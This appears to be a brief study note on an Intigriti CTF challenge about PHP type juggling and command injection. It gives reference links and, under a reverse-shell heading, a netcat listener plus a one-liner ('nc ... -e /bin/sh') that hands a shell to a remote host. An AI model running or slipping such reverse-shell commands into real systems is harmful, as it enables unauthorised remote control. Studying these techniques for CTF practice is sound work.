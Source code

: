 ## intigirit php type juggling command injection
```
https://challenge-0423.intigriti.io/challenge.php
https://www.youtube.com/watch?v=9TCLI04vlvg
https://cybernetgen.com/auth-bypass-with-php-type-juggling
https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md
```
## reverse shell
```
nc -nlvp 1337 no_lookup listen verbose port
nc 192.168.1.100 1337 -e /bin/sh
curl curlip.me
ip addr show
ifconfig

```
